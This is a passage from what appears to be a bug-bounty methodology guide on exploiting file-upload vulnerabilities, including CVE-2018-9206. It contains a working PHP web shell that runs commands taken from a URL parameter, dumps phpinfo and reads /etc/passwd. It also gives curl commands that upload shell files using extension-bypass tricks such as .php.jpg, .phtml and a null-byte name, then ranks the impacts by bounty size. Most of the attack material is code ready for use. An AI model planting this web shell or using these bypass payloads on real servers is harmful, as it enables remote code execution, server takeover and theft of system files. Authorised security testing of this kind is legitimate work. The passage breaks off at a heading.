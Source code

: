 ```html
document.getElementById('uploadForm').submit();
</script>
```

**Step 6: Advanced Payload Testing**
```php
<?php
// Web shell payload for testing
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
// Information disclosure
phpinfo();
// File system access
echo file_get_contents('/etc/passwd');
?>
```

**Step 7: Extension Bypass Techniques**
```bash
# Test various bypass methods
curl -X POST [UPLOAD_ENDPOINT] -F "files[]=@shell.php.jpg"
curl -X POST [UPLOAD_ENDPOINT] -F "files[]=@shell.phtml"  
curl -X POST [UPLOAD_ENDPOINT] -F "files[]=@shell.php%00.jpg"
curl -X POST [UPLOAD_ENDPOINT] -F "files[]=@shell.php.."
```

## What Is The Impact

**Critical (High Bounty):**
- Remote Code Execution via PHP/script upload
- Server compromise through web shell deployment
- Network-wide impact across subdomains
- Complete system takeover potential

**High (Good Bounty):**
- Arbitrary file upload with execution blocked
- Malicious file hosting capabilities
- Cross-domain file upload via CSRF
- CVE-2018-9206 exploitation confirmed

**Medium (Moderate Bounty):**
- File upload with strict execution prevention
- Limited file type acceptance
- CSRF protection partially implemented

**Low (Limited Impact):**
- Restricted file uploads only
- Strong CSRF protection present
- Server-side validation blocking malicious files

### Systematic Assessment Framework:
